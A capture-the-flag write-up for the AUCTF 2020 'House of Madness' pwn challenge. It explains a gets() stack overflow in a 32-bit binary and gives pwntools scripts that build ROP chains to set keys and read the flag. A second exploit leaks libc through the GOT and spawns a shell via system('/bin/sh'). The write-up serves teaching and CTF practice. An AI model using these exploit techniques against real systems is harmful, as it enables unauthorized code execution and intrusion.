






# AUCTF 2020

## House of Madness

> 897
>
> Welcome to the House of Madness. Can you pwn your way to the keys to get the relic?
>
> `nc challenges.auctf.com 30012`
>
> Note: ASLR is disabled for this challenge
>
> Author: kensocolo
> 
> Edit: this challenge's binary was originally a little weird. try this again!
> 
> [challenge](challenge)

Tags: _pwn_

### Introduction

> This writeup is more of a walkthrough.  If too verbose, then click [exploit.py](exploit.py) and [exploit2.py](exploit2.py)

This challenge was, as the description above states, a little weird.  However that did not mean it was not solvable.  I actually thought it was part of the challenge (IMHO, I would have left it _a little weird_).  I've included both binaries in this repo.


### Research

#### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

No canary--check for buffer overflow.  PIE enabled, however the challenge server does not have ASLR enabled (this information was delivered late; to test without disabling ASLR systemwide type: `setarch $(uname -m) -R ./exploit.py`)--ROP, ret2libc, and overwrite GOT also options.

Since no ASLR and x86 (32-bit) we can assume a base process address of `0x56555000`.


#### Decompile with Ghidra



After reviewing all the functions `room4` has an obvious exploit: `gets`.  By [stack] overflowing `local_1c` code execution control can be obtained.

From the disassembly (`local_c` allocation):

```
000115d6 8d 45 e8        LEA        EAX=>local_1c,[EBP + -0x18]
```

To overwrite the return address and gain control execution send 24 (`0x18`) characters + 4 for the saved base pointer, then 4 bytes to overwrite the return address.

To get to `gets`, "Stephen" must be entered first to unlock _Hidden Room 4_ (see code).

The next function of interest is `get_flag`:



Calling this directly without `key1`, `key2`, `key3`, and `key4` correctly set will just fail with one of the messages above.

There are 4 other functions worth exploring (in order of complexity/dependency: `AAsDrwEk`, `get_key2`, `get_key1`, `set_key4`):

Of the four functions `AAsDrwEk` appears to be the simplest:



Because PIE is enabled, the special function `__x86.get_pc_thunk.ax` is used to return the address of the next instruction that immediately follows `__x86.get_pc_thunk.ax` into the `eax` register.  This can make reversing a bit more challenging, but not that hard.

Ghidra disassembly:

```
000117d0 e8 48 02 00 00       CALL       __x86.get_pc_thunk.ax
000117d5 05 2b 28 00 00       ADD        EAX,0x282b
```

```
iVar1 = __x86.get_pc_thunk.ax();
*(int *)(iVar1 + 0x286b) = iVar1 + 0xc40;
```
  
This code assigns `iVar1` the address of the next instruction (`0x117d5`--the address of the instruction after `CALL __x86.get_pc_thunk.ax`), then assigns `0x117d5 + 0x282b` (`0x14040`) the address of `0x117d5 + 0xc40` (`0x12415`).

From Ghidra, look up addresses `0x14040`:


and then `0x12415`:


IOW, `AAsDrwEk` is just `*key3 = "Dormammu"`.

The next least complicated function is `get_key2`, it just checks that `key1` is not `1` and that `key3` is `Dormammu`.  We know how to set `key3`.  `key1` I assume is initialized to `0` (IOW, not `1`).  So this check should pass and set `key2` to `1` if we call `AAsDrwEk` first.



Since `set_key4` needs `key1` set first, then `get_key1` must be next:



Like `AAsDrwEk` above we'll need to deal with `__x86.get_pc_thunk.ax` to reverse this:

Disassembly:

```
000116e5 e8 33 03 00 00       CALL       __x86.get_pc_thunk.ax
000116ea 05 16 29 00 00       ADD        EAX,0x2916
```

```
iVar1 = __x86.get_pc_thunk.ax();
if ((*(char *)(iVar1 + 0x296b) == '\x01') || (param_1 != -0x1123f22)) {
```

This sets `iVar1` to `0x116ea` and checks that the value at address `0x116ea + 0x296b` (`0x14055`) is `1`.  Checking that location with Ghidra reveals a global:

```
                     isInRoom
00014055                 undefined1 ??
```

This global `isInRoom` (`0x14055`), AFAIK, is never set, so assume set to zero.  However the 2nd part of the conditional is expecting a passed parameter (`param1`) to be set to `-0x1123f22` (`0xfeedc0de`).  If that parameter is passed then `*(undefined *)(iVar1 + 0x296c) = 0x1;` will execute setting the value at address `0x116ea + 0x296c` (`0x14056`) to `1`, you can probably guess:

```
                     key1                                            XREF[6]:     Entry Point(*), 
                                                                                  get_key2:00011780(R), 
                                                                                  set_key4:00011809(R), 
                                                                                  get_flag:000118bd(R), 
                                                                                  get_flag:00011946(R), 
                                                                                  get_flag:0001198d(R)  
00014056                 undefined1 ??
```

All that is left is to call:



to set the 4th key, then a call to `get_flag`.


### Exploit
 
#### Attack Plan

1. Navigate to `room4`
2. "Enter something" to get keys 3, 2, 1 (in that order), and then return to `room4`
3. "Enter something" again, to set key 4 and get the flag

#### Navigate to `room4`

```
#!/usr/bin/env python3

from pwn import *

p = process('./challenge')
#p = remote('challenges.auctf.com', 30012)

p.recvuntil('choice: ')
p.sendline('2')
p.recvuntil('enter: ')
p.sendline('4')
p.recvuntil('choice: ')
p.sendline('3')
p.recvuntil('exit: ')
p.sendline('Stephen')
p.recvuntil('something: ')
```

This should be fairly obvious, if not review the `game` decompiled code.

At this point `gets` is waiting for input.

#### "Enter something" to get keys 3, 2, 1 (in that order), and then return to `room4`

```
baseproc = 0x56555000
binary = ELF('challenge')

payload  = 28 * b'A'
payload += p32(baseproc + binary.symbols['AAsDrwEk'])
payload += p32(baseproc + binary.symbols['get_key2'])
payload += p32(baseproc + binary.symbols['get_key1'])
payload += p32(baseproc + binary.symbols['room4'])
payload += p32(0xfeedc0de)
p.sendline(payload)
```

Established above in the _Research_ section is the order of functions that need to be called.  `key3` (`AAsDrwEk`) has no constraints, `key2` requires `key3` but not `key1` (cannot be set), and `key1` just needs `0xfeedc0de` to be passed.

`payload` is the ROP chain.  The 28 `A`s are the required 24 characters to get the to saved base pointer in the stack + the 4 characters to overwrite the saved base pointer (see stack diagram below).

The next 4 bytes will overwrite the `room4` return address with the address of `AAsDrwEk`, then execute to set `key3`.

The next 4 bytes after that will overwrite the `AAsDrwEk` return address (or where it is expected to be) with the address of `get_key2`, then execute to set `key2`.

The next 4 bytes after that will overwrite the `get_key2` return address (or where it is expected) with the address of `get_key1`, then execute to set `key1`.

The next 4 bytes after that (this is getting old) will overwrite the `get_key1` return address (expected location) with the address of `room4`, then execute that.

Lastly `0xfeedc0de` as the parameter to `get_key1`.

If confused, read on, otherwise, skip to last step.

This is what the stack looks like from `local_1c` down after the call to `gets`:

```
0xffffd6a0│+0x0020: 0x41414141
0xffffd6a4│+0x0024: 0x41414141
0xffffd6a8│+0x0028: 0x41414141
0xffffd6ac│+0x002c: 0x41414141
0xffffd6b0│+0x0030: 0x41414141
0xffffd6b4│+0x0034: 0x41414141
0xffffd6b8│+0x0038: 0x41414141	 ← $ebp
0xffffd6bc│+0x003c: 0x565567cd  →  <AAsDrwEk+0> push ebp
0xffffd6c0│+0x0040: 0x5655676e  →  <get_key2+0> push ebp
0xffffd6c4│+0x0044: 0x565566de  →  <get_key1+0> push ebp
0xffffd6c8│+0x0048: 0x56556580  →  <room4+0> push ebp
0xffffd6cc│+0x004c: 0xfeedc0de
```

Recall that before a function is called, the next instruction address (below the call) is pushed to the stack, so that when the function returns it can pop that value to return back to the calling code.  When `get_key2` ends with `ret` the stack will be pointing at `+0x0044`, that (`0x565566de`) will be _popped_ into the instruction pointer and then `get_key1` executed.  That will move the stack pointer back to `+0x0040`, then when `get_key1` starts it pushes the base pointer to the stack, now the stack pointer is back to pointing at `+0x0044`, and then the stack pointer is copied to the base pointer (`ebp`).  The function assumes next in the stack position (`+0x0048`) is the return address followed by any parameters.

You can check this with the following (remember `ebp` = `esp` from this point of view):

```
# objdump -M intel -d challenge | grep feed
    16fd:	81 7d 08 de c0 ed fe 	cmp    DWORD PTR [ebp+0x8],0xfeedc0de
```

When the code compares (`cmp`) `param1` with `0xfeedc0de` it is looking for the value of `param1` (`ebp+0x8`) 2 stack positions down (8 bytes), since the first 4 bytes are the return address (in this case `room4`'s address is the return address to allow another `gets` exploit).  If `set_key4` were called instead, `0xfeedc0de` would end up the return address and SEGFAULT.


#### "Enter something" again, to set key 4 and get the flag

```
p.recvuntil('something: ')

payload  = 28 * b'A'
payload += p32(baseproc + binary.symbols['set_key4'])
payload += p32(baseproc + binary.symbols['get_flag'])
p.sendline(payload)

p.stream()
```

The previous code will go back to `room4`, and since the global flag `unlockHiddenRoom4` is already set, "Enter something: " will prompt for the next attack.

As before, `payload` starts out with 28 'A's, followed by a short ROP chain of 2 function calls, neither requirement arguments.

Output:

```
# ./exploit.py
[+] Opening connection to challenges.auctf.com on port 30012: Done
[*] '/pwd/datajerk/auctf2020/madness/challenge'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
Damn you beat the house: auctf{gu3ss_th3_h0us3_1sn't_th4t_m4d}
```

Flag: `auctf{gu3ss_th3_h0us3_1sn't_th4t_m4d}`

### But wait!  There's more...

There's an easier way to solve this without all the reverse engineering.

An alternative attack can be performed by leaking the libc base and version. Once both are known a number of attacks can be used to get a remote shell.

```
payload  = 20 * b'A'
payload += p32(baseproc + binary.symbols['_GLOBAL_OFFSET_TABLE_'])
payload += p32(0xba5e0f10)
payload += p32(baseproc + binary.plt['puts'])
payload += p32(baseproc + binary.symbols['room4'])
payload += p32(baseproc + binary.got['puts'])

p.sendline(payload)
_ = p.recvuntil('something: ')

puts = u32(_[:4])
print("puts:" + str(hex(puts)))
```

This pattern should look familiar, send 28 bytes, then overwrite the return address with the function we want to call, then overwrite that function's return address followed by function arguments.  Above, `puts` is called and passed a single parameter (pointer to `puts` from the GOT).  This will emit the address of `puts` from libc.  If this is not obvious to you, then read up on [GOT and PLT](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html) (first Google hit).

_But wait! What is this!?:_

```
payload += p32(baseproc + binary.symbols['_GLOBAL_OFFSET_TABLE_'])
payload += p32(0xba5e0f10)
```

Ah, well, let's take a closer look at the `room4` disassembly:

```
00011580 55              PUSH       EBP
00011581 89 e5           MOV        EBP,ESP
00011583 53              PUSH       EBX
00011584 83 ec 24        SUB        ESP,0x24
```

At the start of a function (`room4`) the base pointer is pushed to the stack, then the stack pointer copied to the base pointer.  All of the local variables are addressed relative to the base pointer.  The `SUB ESP,0x24` is the allocation of local variable space; in this case `0x24` (36 bytes).  However, before that `ebx` is pushed to the stack.

> _`ebx`: this register serves as the global offset table base register for position-independent code.  For absolute code, `ebx` serves as a local register and has no specified role in the function calling sequence.  In either case, a function must preserve the register value for the caller. -- [SYSTEM V APPLICATION BINARY INTERFACE Intel386<sup>TM</sup> Architecture Processor Supplement, Fourth Edition](http://refspecs.linuxbase.org/elf/abi386-4.pdf), pp. 37_

Thanks to PIE being enabled, `ebx` has to be preserved between function calls.

Before any [x86 PIE] function is called `ebx` is set to `_GLOBAL_OFFSET_TABLE_`.  When `room4` starts this value is pushed to the stack, just in case `ebx` is changed; at the end of the function `ebx` is restored from this pushed value:

```
00011680 8b 5d fc        MOV        EBX,dword ptr [EBP + -0x4]
00011683 c9              LEAVE
00011684 c3              RET
```

Remember from the disassembly (`local_c` allocation):

```
000115d6 8d 45 e8        LEA        EAX=>local_1c,[EBP + -0x18]
```

To get to the saved base pointer we have to write `0x18` (24) bytes.  But `local_1c` is only 20 bytes, the other 4 is the value of `ebx` when pushed to the stack (IOW, `_GLOBAL_OFFSET_TABLE_`).

If `ebx` is not correctly set before `ret` and the ROP chain starts, `puts` will fail to execute because:

```
Dump of assembler code for function puts@plt:

0x56556070 <+0>:	jmp    DWORD PTR [ebx+0x1c]
```

when `puts` is called using the PLT it jumps to the address pointed to by `ebx+0x1c` (in this example):

```
[0x5655901c] puts@GLIBC_2.0  →  0xf7e32b70
```

That is the pointer the address of `puts` in libc.  In this case `_GLOBAL_OFFSET_TABLE_` is `0x56559000` and so is `ebx`, therefore `ebx+0x1c` is `0x5655901c`.

The return address is set to `room4` to allow for a 2nd exploit.  The output of the `puts` leak + the return to `room4` should look something like this (folded at `\n` for readability):

```
b'p+\xe3\xf7\x86`UV\x106\xe5\xf7\xc0\xfe\xdd\xf7`3\xe3\xf7\xc6`UVpL\xe3\xf7\n
Wow this room is special. It echoes back what you say!\n
Welcome to the hidden room! Good Luck\n
Enter something: '
```

The first 4 bytes is the address of `puts` in libc.  The rest is whatever was in the GOT until a NULL was read, then the expected output of `room4`.

Now that we have the address of `puts` we need to detect the version and compute the base of libc:

```
import os
stream = os.popen("libc-database/find puts " + str(hex(puts & 0xFFF)) + " | grep archive-glibc | sed 's/)//' | awk '{print $NF}'")
output = stream.read().strip()
stream.close()
```

This fugly code just calls the [libc-database](https://github.com/niklasb/libc-database) `find` command with the last 3 nibbles of the `puts` address to return the version of libc used.  The [libc-database](https://github.com/niklasb/libc-database) also has copies of all the libc's in it's `db` directory.

> Before running this exploit the [libc-database](https://github.com/niklasb/libc-database) will need to be downloaded (this will take a while and will take up about 400 MB of space):
>
> ```
> git clone https://github.com/niklasb/libc-database && cd libc-database && ./get
> ```

Once the correct libc version has been identified, computing the base of libc is trivial:

```
libc = ELF('libc-database/db/' + output + '.so')
baselibc = puts - libc.symbols['puts']
print("libc:" + str(hex(baselibc)))
```

Our exploit is currently back in `room4` waiting for the next `gets` attack:

```
payload  = 28 * b'A'
payload += p32(baselibc + libc.symbols['system'])
payload += p32(baseproc + binary.symbols['room4'])
payload += p32(baselibc + next(libc.search(b"/bin/sh")))

p.sendline(payload)
p.interactive()
```    

Since we're not using the PLT any 28 bytes will do.  This time a call to `system` with an arg of `/bin/sh`.

Pwned.

Output:

```
# setarch $(uname -m) -R ./exploit2.py
[+] Starting local process './challenge': pid 13835
[*] '/pwd/datajerk/auctf2020/madness/challenge'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
puts:0xf7e32b70
[*] '/pwd/datajerk/auctf2020/madness/libc-database/db/libc6_2.30-0ubuntu2.1_i386.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc:0xf7dc1000
[*] Switching to interactive mode
$ cat flag.txt
auctf{gu3ss_th3_h0us3_1sn't_th4t_m4d}
```


